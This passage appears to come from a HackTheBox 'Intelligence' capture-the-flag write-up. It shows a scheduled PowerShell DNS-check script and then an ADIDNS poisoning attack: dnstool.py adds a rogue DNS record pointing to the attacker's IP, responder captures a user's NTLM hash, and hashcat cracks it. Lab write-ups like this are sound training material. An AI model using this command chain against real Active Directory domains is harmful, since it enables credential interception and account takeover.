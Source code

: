 ```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

that is script loops through dns records and send an authenticated user having a name start with web, in order to check the status. Beside Active Directory Domain Services offer an integrated storage and replication service for DNS record.
Googling about ADIDNS and found this [documentation](https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/f4868), we can leverage our attack into ADIDNS poisoning and catch the hash using `responder`. in otherwords we can modify the ADIDNS with [dnstool.py](https://github.com/dirkjanm/krbrelayx).

```python
python dnstool.py -u 'intelligence\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --record 'web1' --action add --data 10.10.14.8 10.10.10.248
```

responder command:

```bash
responder -I tun0
```

after few minutes we able to catch `ted.graves` NTLM hash

![](/assets/img/intelligence/10.png)


easily crackable with `hashcat` with module 5600

```bash
hashcat -a 0 -m 5600 hash-ted /usr/share/wordlists/rockyou.txt
```
